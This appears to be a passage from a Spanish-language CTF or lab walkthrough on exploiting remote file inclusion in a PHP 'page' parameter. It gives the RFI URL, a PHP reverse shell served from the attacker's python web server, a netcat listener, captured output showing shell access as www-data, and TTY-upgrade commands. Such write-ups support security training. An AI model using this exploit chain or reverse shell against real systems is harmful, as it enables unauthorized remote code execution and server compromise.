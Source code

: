 ```
URL = http://<IP>/index.php?page=http://<IP_ATTACKER>/test
```

Antes de enviarlo vamos abrir un servidor de `python3`.

```shell
python3 -m http.server 80
```

Ahora si lo enviamos desde la pagina y volvemos a donde tenemos el servidor veremos lo siguiente:

```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.5.59 - - [16/Jul/2025 03:33:46] code 404, message File not found
192.168.5.59 - - [16/Jul/2025 03:33:46] "GET /test.php HTTP/1.0" 404 -
```

Vemos que esta funcionando, por lo que vamos a probar a crear un archivo `PHP` con una `reverse shell` a ver si lo descarga y lo ejecuta.

> shell.php

```php
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("bash", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Ahora como tenemos el servidor de `python3` abierto donde esta dicho archivo, desde la web podremos hacer lo siguiente, pero nos pondremos a la escucha en otra terminal.

```shell
nc -lvnp <PORT>
```

Ahora desde la web hacemos lo siguiente:

```
URL = http://<IP>/index.php?page=http://<IP_ATTACKER>/shell
```

Ahora si volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.50] from (UNKNOWN) [192.168.5.59] 41368
whoami
www-data
```

Veremos que ha funcionado, por lo que sanitizaremos la shell.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```
